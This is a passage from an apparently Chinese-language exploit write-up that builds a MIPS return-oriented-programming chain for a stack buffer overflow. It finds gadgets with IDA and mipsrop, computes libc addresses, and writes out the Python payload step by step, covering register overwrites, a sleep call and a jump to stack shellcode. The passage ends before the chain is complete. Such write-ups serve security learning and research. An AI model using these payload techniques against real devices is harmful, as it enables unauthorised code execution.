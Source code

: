 并且由ida可知调整shellcode的位置为0x58  
```
gadget1=0x7f714b10
gadget2=0x7f6eba50
payload="a"*508
payload+=p32(gadget2)
payload+="a"*0x58
payload+="aaaa"#覆盖s0
payload+="aaaa"#覆盖s1
payload+="aaaa"#覆盖s2
payload+=p32(gadget1)
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldzgr2BfvRHQPINwcTfnsPQKvFFGcAcQDO96zwuV46HYdhHwicOfUkhtc8x5PxxW84TWQC4ml3pibpTg/640?wx_fmt=png&from=appmsg "")  
  
  
由ida可知，sleep静态地址为0x0002F2B0，再加上libc_addr的话就为0x7F7142B0  
  
但是不能把sleep地址直接写到s1上，因为当这里填入sleep函数的地址后，程序会直接跳转执行sleep函数，但由于$ra寄存器仍保留着gadget1的地址，在sleep函数执行完毕后又会重新返回到当前位置。因此，需要寻找一个具备双重功能的gadget3——它既能通过s0或s  
2寄存器实现跳转控制，同时又能够对ra寄存器进行重新赋值，通过mipsrop.tail()找到的gadget3 0x00020F1C+libc_addr=0x7f705f1c  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldzgr2BfvRHQPINwcTfnsPQKhLn4HzONRTZkl9kAiadADyF1oWc1TMLLAECia3yIhsI5Klyv6EuzJ6Jg/640?wx_fmt=png&from=appmsg "")  
  
```
gadget1=0x7f714b10
gadget2=0x7f6eba50
gadget3=0x7f705f1c
sleep_addr=0x7f7142b0
payload="a"*508
payload+=p32(gadget2)
payload+="b"*0x58
payload+="cccc"#覆盖s0
payload+=p32(gadget3)#覆盖s1
payload+=p32(sleep)#覆盖s2，写入sleep
payload+=p32(gadget1)

payload+="c"*0x18#gadget3需要调整的shellcode位置的字节码
payload+="aaaa"#覆盖$s0
payload+="aaaa"#覆盖$s1
payload+="aaaa"#覆盖$s2
payload+="aaaa"#覆盖$ra
```  
  
sleep函数执行完之后，得找一个可以跳转的地址，并且在那上面可以写shellcode  
  
不过没有找到，在师傅建议下，找了一个可以先控制寄存器上的值，再跳转到这里，通过mipsrop.stackerfind()，gadget4=0x00016dd0+libc_addr=0x7f6fbdd0  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldzgr2BfvRHQPINwcTfnsPQKL3pYIMkaYbglBib1qhJAhpiak14zibhU9omXjdvHmIaM1ibLzVnn00byKw/640?wx_fmt=png&from=appmsg "")  
  
```
gadget1=0x7f714b10
gadget2=0x7f6eba50
gadget3=0x7f705f1c
gadget4=0x7f6fbdd0
sleep_addr=0x7f7142b0
payload="a"*508
payload+=p32(gadget2)
payload+="b"*0x58
payload+="cccc"#覆盖s0
payload+=p32(gadget3)#覆盖s1
payload+=p32(sleep)#覆盖s2，写入sleep
payload+=p32(gadget1)

payload+="c"*0x18#gadget3需要调整的shellcode位置的字节码
payload+="aaaa"#覆盖$s0
```